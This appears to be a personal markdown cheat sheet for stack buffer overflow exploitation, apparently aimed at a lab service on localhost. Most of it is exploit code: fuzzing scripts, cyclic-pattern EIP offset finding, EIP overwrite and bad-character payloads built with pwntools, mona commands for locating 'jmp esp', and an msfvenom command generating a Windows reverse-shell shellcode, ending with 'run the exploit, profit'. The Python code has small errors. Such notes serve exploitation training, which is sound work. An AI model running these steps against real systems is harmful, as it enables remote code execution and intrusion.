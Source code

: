 # Buffer overflows

## Spiking

I'm not so sure what's the difference between spiking and fuzzing. But still included it here for completeness sake.

```text
generic_send_tcp
```

## Fuzzing

### Sockets

This is the most basic way of fuzzing.

```python
#!/usr/bin/env python3
import sys, sockets
from time import sleep

buffer = "1" * 64
RHOST = "127.0.0.1"
RPORT = 9999

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((RHOST,RPORT))
    
        s.send("change_me " + buffer)
        s.close()
        sleep(1)
        buffer = buffer + "1"*64
    except:
        print("Crashed at buffer length of: " + str(len(buffer)))
```

### Boofuzz

Also we can use boofuzz. This python module will do a lot of work for us and also create a database of results.

```python
#!/usr/bin/env python3
from boofuzz import *

RHOST = "127.0.0.1"
RPORT = 9999

s = Session(target=Target(connection=SocketConnection(RHOST,RPORT,proto="tcp")))

s_initialize("FUZZER")

s_string("change_me", fuzzable=False)
s_delim(" ", fuzzable=False)
s_string("fuzzme")

s.connect(s_get("FUZZER"))
s.fuzz()
```

## Finding offset of EIP

Best way to find EIP is to send a non-repeating pattern of characters.

```python
#!/usr/bin/env python3
from pwn import *

RHOST = "127.0.0.1"
RPORT = 9999

# pwn cyclic 4000
# OR msf-pattern_create -l 4000
cyclic_pattern = b"..."

s = remote(RHOST,RPORT)

payload = b"".join([
    b"change_me ",
    cyclic_pattern
])

s.send(payload)
s.interactive()
```

## Overwriting EIP

Now we can overwrite EIP with four 2's \(0x32323232\).

```python
#!/usr/bin/env python3
from pwn import *

RHOST = "127.0.0.1"
RPORT = 9999

offset = 2014

s = remote(RHOST,RPORT)

payload = b"".join([
    b"change_me ",
    b"1"*2014,
    b"2"*4
])

s.send(payload)
s.interactive()
```

## Finding bad characters

To be able to find "bad" characters, we'll send all 256 bytes and then search in debugger for anomalies

```python
#!/usr/bin/env python3
from pwn import *

RHOST = "127.0.0.1"
RPORT = 9999

badchars = b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"+
b"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"+
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"+
b"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"+
b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"+
b"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"+
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"+
b"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"+
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"+
b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"+
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"+
b"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"+
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"+
b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"+
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"+
b"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

s = remote(RHOST,RPORT)

payload = b"".join([
    b"change_me ",
    badchars
])

s.send(payload)
s.interactive()
```

## Finding the right module

You can list modules with `!mona modules` command, and find unsecured module.

Then try to find position of `jmp esp` instruction\(`FF E4`\)

```text
!mona jmp -r esp
!mona find -s "\xff\xe4" -m <unsecure_module>
```

## Generating shellcode

Generating shellcode with msfvenom is easy.

```text
msfvenom -p <payload> LHOST=<lhost> LPORT=<lport> EXITFUNC=thread -f c -a <architecture> -b <bad_bytes>

# example
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=8990 EXITFUNC=thread -f c -a x86 -b "\x00"
```

## Root

Setup your listener, run the exploit, profit.

